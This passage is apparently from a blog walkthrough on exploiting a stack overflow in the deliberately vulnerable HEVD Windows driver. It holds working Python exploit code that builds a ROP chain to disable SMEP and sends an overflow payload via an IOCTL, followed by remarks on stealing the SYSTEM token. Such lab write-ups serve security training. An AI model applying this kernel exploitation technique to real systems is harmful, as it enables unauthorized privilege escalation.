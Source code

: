 ``` python
)

print('Creating ROP chain...')
ROP_CHAIN = (
    struct.pack('<L', BASE_ADDRESS + 0x0002bbef) +     #  pop eax # ret
    struct.pack('<L', 0x42424242) +                    #  Padding for ret 8
    struct.pack('<L', 0x42424242) +                    #
    struct.pack('<L', 0x000406e9) +                    #  Value to disable SMEP
    struct.pack('<L', BASE_ADDRESS + 0x0011f8de) +     #  mov cr4, eax # ret
    struct.pack('<L', RET_PTR)                         #  Pointer to shellcode
)

PAYLOAD = (
    b'A' * 2080 +
    ROP_CHAIN
)

SIZE = len(PAYLOAD)

print('Opening driver handle...')
HANDLE = DeviceIoControl(DEVICE_NAME)
print('Sending payload...')
HANDLE.ioctl(IOCTL_HEVD_STACK_OVERFLOW, PAYLOAD, SIZE, 0, 0)
print('Done.')

sys.exit(0)
```

And check it:

<div class="imgblock">

![Success](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330910/blog/hevd-privilege-escalation/success_flunbs.gif)

</div>

Glorious\! We were able to steal the token of the `SYSTEM` process and
copy it to our `cmd.exe` shell. Now, we own the system\!

## Conclusions

It was fun to steal the `SYSTEM` process token and pass it to our own
parent process. There are many other ways of gaining Local Privilege
Escalation but this method is one of the most used because it is
extremely reliable if you can restore the execution of the kernel.
